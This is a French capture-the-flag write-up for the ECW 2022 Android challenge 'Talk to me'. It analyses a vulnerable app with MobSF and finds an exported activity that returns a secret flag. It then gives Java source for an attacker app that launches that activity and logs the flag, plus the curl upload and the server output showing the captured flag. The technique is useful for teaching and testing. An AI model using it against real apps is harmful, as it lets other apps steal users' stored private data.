


# ECW 2022 Write Up

## ANDROID - Talk to me - 77 solves - 357 pts

Dans ce challenge des instructions nous sous fournies afin de déployer une application Android sur une image docker.
Le but est de déployer une application (qui sera automatiquement executé sur l'android virtualisé) qui exploitera la vulnérabilité de l'application préalablement installé sur l'appareil.



Les fichiers fournis dans le challenge sont disponnibles dans le dossier `enonce`.

### Analyse de l'application

La première étape consiste à analyser l'application. Un excellent outil que j'aime utiliser est [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) disponible dans sa version live [ici](https://mobsf.live/).
Pour ma part je vais lancer l'application en local grâce à Docker:

```Bash
docker run -p 8000:8000 opensecurity/mobile-security-framework-mobsf 
```

Une fois l'appli lancé on se connecte sur l'interface web http://127.0.0.1:8000 et on upload l'apk :



On prend le temps d'installer Android Studio durant l'analyse. Une fois l'analyse terminé on peut parcourir le report afin de detecter les vulnérabilités évidente.  
Le rapport de l'analyse est disponnible [ici](report.pdf).  
L'application ne présente visiblement pas de vulnérabilité grave, une chose retient cependant notre attention :


Ce tag signifie qu'il est possible d'enregistrer une application et ses datas. Cependant une connexion adb sera nécessaire pour exploiter cette mauvaise configuration. Il serait envisageable de faire une application qui backup d'autres application mais cela me semble relativement long et fastidieux à réaliser.

### Extraction des sources

Pour en savoir plus nous allons devoir lire le code source de l'application. Il est possible d'utiliser le paquet apktool mais, il n'est possible d'extraire les sources que en smali et personnellement je préfère lire les sources directement en Java. Heuresement MobSF nous permet de télécharger les sources Java une fois l'analyse terminé.

Les sources extraites sont disponnibles dans le dossier `sources`.

```Bash
sources
└── com
    ├── ecw2022
    │  └── helloworld
    │      ├── BuildConfig.java
    │      ├── CryptoActivity.java
    │      ├── MainActivity.java
    │      └── R.java
    └── google
```

On repère dans le AndroidManifest cette ligne qui nous interpelle :

```xml
<activity android:name="com.ecw2022.helloworld.CryptoActivity" android:enabled="true" android:exported="true" />
```

La balise `exported="true"` signifie que l'activité peut être lancé depuis n'importe qu'elle autre activité, qu'elle vienne de la même application ou bien d'une autre. Voyons si notre application est en mesure d'exploiter quelque chose dans cette activité.

MainActivity.java
```Java
public class CryptoActivity extends Activity {

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = getIntent();
            intent.putExtra("flag", getApplicationContext().getSharedPreferences("prefs", 0).getString("flag", "nope"));
            setResult(ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION, intent);
            finish();
        } catch (Exception e) {
            Log.e("FAIL", Log.getStackTraceString(e));
        }
    }

}
```

Je vais essayer d'expliquer rapidement pour les neophytes comment cet extrait de code est interprété par Android.

- La fonction [onCreate()](https://developer.android.com/reference/android/app/Activity#onCreate(android.os.Bundle)) est appelé lorsque l'activité est démarré pour la première fois.
- La fonction [getIntent()](https://developer.android.com/reference/android/app/Activity#getIntent()) permet de récupérer l'intent qui a démarré l'activité. Un [Intent](https://developer.android.com/reference/android/content/Intent) est un message asynchrone qui permet aux activités android de communiquer entre elles.
- La fonction [putExtra()](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)) permet de copier une valeur dans une clé (ici "flag") dans l'intent.
- La fonction [setResult()](https://developer.android.com/reference/android/app/Activity#setResult(int,%20android.content.Intent)) permet d'enregister les informations d'un intent afin de le retourner à l'activité qui sera repris à la fermeture de l'activité en cours.
- La fonction [finish()](https://developer.android.com/reference/android/app/Activity#finish()) termine l'activité en cours et renvoie à l'activité précédente.

D'après l'analyse de cet extrait de code voila le WorkFlow qui devra être accompli par notre application :

Au lancement de l'application :
- Lancer l'activité CryptoActivity de l'application com.ecw2022.helloworld

À la reprise de l'application :
- Récupérer les informations renvoyés par l'Intent de CryptoActivity.
- Afficher la valeur de l'extra "flag"

### Developpement de notre Application

Je vous invite à initialiser un projet Android "Empty Activity" en Java avec [AndroidStudio](https://developer.android.com/studio?hl=fr).
Comme nous l'informe la note fourni par les organisateurs :
* its package name must be `com.ecw2022.app`
* its main activity must be `MainActivity`

Les sources de l'application que j'ai developpé sont disponnibles dans le dossier `app`.

MainActivity.java
```Java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("com.ecw2022.helloworld", "com.ecw2022.helloworld.CryptoActivity");
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode == 1) {
            if(resultCode == ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION){
                String result=data.getStringExtra("flag");
                Log.d("{ECW2022}",result);
            }
        }
    }
}
```

- La fonction [setClassName()](https://developer.android.com/reference/android/content/Intent#setClassName(java.lang.String,%20java.lang.String)) permet de définir l'activité et l'application dont elle provient que l'intent doit appeler.

- La fonction [startActivityForResult()](https://developer.android.com/reference/android/app/Activity#startActivityForResult(android.content.Intent,%20int)) permet de déclancher l'intent passé en paramètre et d'attendre un retour de cette activité. De cette manière la fonction onActivityResult() sera appelée.

On s'assure que la balise package soit bien renseigné dans le manifest :

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.ecw2022.app">
```
Une fois l'application buildé on extrait le fichier app-debug.apk afin de l'envoyer à l'image docker.

```Bash
curl -v -F 'apk=@app-debug.apk' http:// 213.32.7.237:28074/apk

* Closing connection -1
curl: (3) URL using bad/illegal format or missing URL
*   Trying 213.32.7.237:28074...
* Connected to 213.32.7.237 (213.32.7.237) port 28074 (#0)
> POST /apk HTTP/1.1
> Host: 213.32.7.237:28074
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 6886715
> Content-Type: multipart/form-data; boundary=------------------------146cd4267fd45f8a
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=utf-8
< Content-Length: 336
< Date: Thu, 03 Nov 2022 09:16:44 GMT
< Server: Python/3.10 aiohttp/3.8.1
< 
* Connection #0 to host 213.32.7.237 left intact
[
	"virtual device up", 
	"virtual device booted",
	"installing vulnerable app",
	"installed vulnerable app",
	"vulnerable app installed",
	"installing candidate app",
	"candidate app installed",
	"candidate app started",
	"11-03 09:11:45.695  2552  2552 D {ECW2022}: {ECW2022} : ECW{810f32667eb47979694d135e0f024ef5}",
	"virtual device destroyed"
] 
```

Le temps de patienter on part se faire un petit kawa et au retour le flag est dans la poche !